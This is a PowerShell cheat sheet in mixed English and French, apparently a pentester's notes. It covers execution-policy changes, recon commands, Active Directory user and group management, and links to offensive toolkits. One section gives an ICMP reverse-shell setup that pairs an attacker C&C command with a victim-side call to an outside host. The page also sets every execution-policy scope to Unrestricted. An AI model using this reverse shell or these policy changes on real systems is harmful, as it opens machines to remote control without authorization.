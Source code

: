 # PowerShell


## Modules and ExecutionPolicy management

```
Set-ExecutionPolicy -scope MachinePolicy Unrestricted -force
Set-ExecutionPolicy -scope UserPolicy Unrestricted -force
Set-ExecutionPolicy -scope Process Unrestricted -force
Set-ExecutionPolicy -scope CurrentUser Unrestricted -force
Set-ExecutionPolicy -scope LocalMachine Unrestricted -force

Get-ExecutionPolicy -list
```


## Generally usefull commands

* `ft` = `Format-Table`
* `fl` = `Format-List`


## Recon

### List all environment variables

```
get-childitem env:
```
or access one of them:
```
echo $env:userdnsdomain
```

### Find the local architecure

Via environment variable:
```
$ENV:PROCESSOR_ARCHITECTURE
```

4 for 32 bits and 8 for 64 bits:
```
[IntPtr]::Size
```

### Find the local Windows version

Via env variable:
```
[environment]::OSVersion.Version
```

Via a WMI call:
```
Get-WmiObject win32_operatingsystem
```

```
wmic os get 'csname,version,muilanguages'
```


### Find the public IP

```
Invoke-RestMethod http://ipinfo.io/json | Select -exp ip
```


## Usefull for pentest

### Lister les comptes locaux

```
Get-WmiObject -Class Win32_UserAccount -Filter  "LocalAccount='True'"
```

### Lister les permissions sur un fichier

```
Get-Acl "C:\Windows\System32\cmd.exe" | Format-List
Get-Acl "C:\Windows\system32\cmd.exe" | Format-Table
(get-acl C:\Windows\system32\cmd.exe).access | fl
(get-acl C:\Windows\system32\cmd.exe).access | ft
```

### Lister les permissions sur une clé de registre	

```
Get-Acl HKLM:\Software\Microsoft | Format-List
```

### Vérifier la signature d'un executable

```
$(get-AuthenticodeSignature myfile.exe).SignerCertificate.Subject
```

### Get information about PE

TODO : correct this shit!

```
Get-ExecutableType myfile.exe
```

### Reverse shell via tunnel ICMP

Sur le C&C linux : https://github.com/inquisb/icmpsh

```
./icmpsh_m.py 8.8.8.8 192.168.0.10
```

Sur la victime Windows : https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1

```
Invoke-PowerShellIcmp -IPAddress 8.8.8.8
```

## Interdasting project...

* https://github.com/besimorhino/powercat
* https://github.com/PowerShellMafia/PowerSploit/
* https://github.com/samratashok/nishang
* https://github.com/Kevin-Robertson/Inveigh




## Active Directory management

### Forests, Domains, and DC

https://blog.ctglobalservices.com/powershell/kaj/installing-a-domain-controller-on-windows-server-2012-r2-core/


### Groups management

https://docs.microsoft.com/en-us/powershell/module/addsadministration/new-adgroup?view=win10-ps

`New-ADGroup -Name "RODC Admins" -SamAccountName RODCAdmins -GroupScope Global -DisplayName "RODC Administrators" -Description "Members of this group are RODC Administrators"`


Add an account (user, computer, group, etc) to a group:
`Add-ADGroupMember -Identity "Domain Admins" -Member jDupond`

List members of a group:
`Get-ADGroupMember -Identity "Domain Admins"`



### Users management

https://docs.microsoft.com/en-us/powershell/module/addsadministration/new-aduser?view=win10-ps

`New-ADUser -Name jDupond -Enable 1 -AccountPassword (ConvertTo-SecureString -AsPlainText 'P@ssw0rd' -Force)`


Enable a user account:
`Set-ADUser -Identity jDupond -Enable 1`

Reset password of a user account:
`Set-ADAccountPassword –Identity JohnThomas –Reset –NewPassword (ConvertTo-SecureString -AsPlainText "ThisPassword001" -Force)`


## Misc

### Stop-Computer

Shutdown the local computer (or a remote computer with a specific argument)

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/stop-computer?view=powershell-6


